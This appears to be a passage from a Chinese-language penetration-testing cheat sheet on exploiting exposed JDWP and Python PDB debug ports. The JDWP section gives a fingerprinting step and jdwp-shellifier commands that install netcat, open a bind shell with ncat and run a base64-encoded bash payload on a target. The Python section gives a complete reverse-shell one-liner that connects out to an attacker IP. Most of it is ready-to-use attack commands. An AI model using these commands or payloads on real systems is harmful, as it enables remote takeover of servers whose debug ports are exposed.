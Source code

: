 **jdwp**

- 简介

    JDWP 是 Java Debug Wire Protocol 的缩写，在 JPDA（Java Platform Debugger Architecture）中，它定义了调试器（debugger）和被调试的 Java 虚拟机（target vm）之间的通信协议。

    与 PHP 的 Xdebug 类似，当其调试端口直接开放在公网上时，很容易被攻击者攻击并且获取系统权限。

- 指纹
    - `JDWP-Handshake`
        ```
        telnet 端口后，输入命令 JDWP-Handshake
        如果返回 JDWP-Handshake，证明存在漏洞。
        ```
        ```
        jdb -attach IP:PORT
        ```

- 文章
    - [JDWP无依赖攻击](https://xz.aliyun.com/t/7303)
    - [浅析常见Debug调试器的安全隐患](https://security.tencent.com/index.php/blog/msg/137)
    - [jdwp远程调试与安全](https://qsli.github.io/2018/08/12/jdwp/)
    - [jdwp命令执行](https://blog.csdn.net/caiqiiqi/article/details/83146415)

- 工具
    - [IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
        ```
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'touch /tmp/pwnd'

        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'rm -f /var/run/yum.pid'
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'yum install -y nc'
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'ncat -v -l -p 7777 -e /bin/bash'

        jdwp-shellifier.py -t xx.xx.xx.xx -p 8000 --break-on java.lang.String.indexOf --cmd "bash -c {echo,  bash64的payload  } | {base64,-d} | {bash,-i}"
        ```
    - [Lz1y/jdwp-shellifier](https://github.com/Lz1y/jdwp-shellifier) - 修改利用方式为通过对 Sleeping 的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

---

## Python

**Python_PDB**

- 相关文章
    - [浅析常见Debug调试器的安全隐患](https://security.tencent.com/index.php/blog/msg/137)
    - [Python调试之RPDB工具](https://blog.woodcoding.com/python/2019/02/21/python-debug-tools-rpdb/)

- POC | Payload | exp
    ```
    telnet xxx.xxx.xxx.xxx 4444
    1
    w
    !1+1
    !import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    ```

